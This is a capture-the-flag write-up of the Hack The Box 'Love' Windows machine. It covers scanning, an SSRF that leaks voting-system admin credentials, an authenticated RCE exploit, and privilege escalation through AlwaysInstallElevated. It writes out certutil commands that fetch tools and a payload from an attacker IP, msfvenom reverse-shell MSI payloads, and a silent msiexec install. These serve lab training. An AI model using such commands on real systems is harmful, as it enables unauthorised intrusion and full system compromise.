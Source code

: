 # About
Love is an easy windows machine where it features a voting system application that suffers from an authenticated remote code execution vulnerability. Our port scan reveals a service running on port 5000 where browsing the page we discover that we are not allowed to access the resource. Furthermore a file scanner application is running on the same server which is though effected by a SSRF vulnerability where it&amp;amp;#039;s exploitation gives access to an internal password manager. We can then gather credentials for the voting system and by executing the remote code execution attack as phoebe user we get the initial foothold on system. Basic windows enumeration reveals that the machine suffers from an elevated misconfiguration. Bypassing the applocker restriction we manage to install a malicious msi file that finally results in a reverse shell as the system account. 

## Skills Required
- Windows Enumeration
- Web Enumeration
## Skills Learned
- Exploit modification
- Server side request forgery
- Applocker policies
- Always install everything misconfiguration

## Enumeration
`nmap -p- -sV -sC 10.129.48.103 --open`
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2025-04-17T16:42:05+00:00; +21m32s from scanner time.
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Add love.htb to hosts file and staging.love.htb

### HTTP
http://love.htb/ gives us login screen
![](Images/Pasted%20image%2020250417122446.png)

Searchsploit shows some random modules for exploit

![](Images/Pasted%20image%2020250417122514.png)
Staging gets us some file scanner resource.

![](Images/Pasted%20image%2020250417122614.png)
love.htb:5000 is not allowed to us.

![](Images/Pasted%20image%2020250417122642.png)

## Exploit
Upon doing some testing of the File Scanning website I was able to use the local IP address of the remote host to access 127.0.0.1:5000 bypassing the authentication requirement.

![](Images/Pasted%20image%2020250417122906.png)
`Vote Admin Creds admin: @LoveIsInTheAir!!!! `
Now that we have credentials we can try the `Online Voting System 1.0 - Remote Code Execution (Authenticated)` found in our searchsploit search. [ExploitDB](https://www.exploit-db.com/exploits/49445)
Edit settings and attempt to run it

![](Images/Pasted%20image%2020250417123709.png)

This wasn't working, I realized the directories was wrong and it beings at /admin begins at the root directory.

![](Images/Pasted%20image%2020250417124556.png)

After adjusting we setup the listener and run it again.

![](Images/Pasted%20image%2020250417124617.png)

Grab the user flag

![](Images/Pasted%20image%2020250417124728.png)

## Priv Esc
`certutil -urlcache -split -f http://10.10.14.251:8080/winPEASany.exe winPEASany.exe`
![](Images/Pasted%20image%2020250417125437.png)

We can verify the WinPeas output
![](Images/Pasted%20image%2020250417125606.png)

![](Images/Pasted%20image%2020250417130000.png)
So it appears that the path of escalation is due to the misconfiguration of always install as elevated and the user Phoebe having access to write in the administraton directory.
Lets generate a payload and test it out
`msfvenom -p windows/meterpreter/shell_reverse_tcp lhost=10.10.14.251 lport=8686 -f msi -o shell.msi`
`certutil -urlcache -split -f http://10.10.14.251:8080/shell.msi shell.msi`
`msiexec /quiet /i shell.msi`
Original Meterpreter shell wasn't working so lets try a new one

![](Images/Pasted%20image%2020250417130725.png)

`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.251 lport=8686 -f msi -o shell.msi`
It worked this time around.
![](Images/Pasted%20image%2020250417130814.png)
![](Images/Pasted%20image%2020250417130856.png)
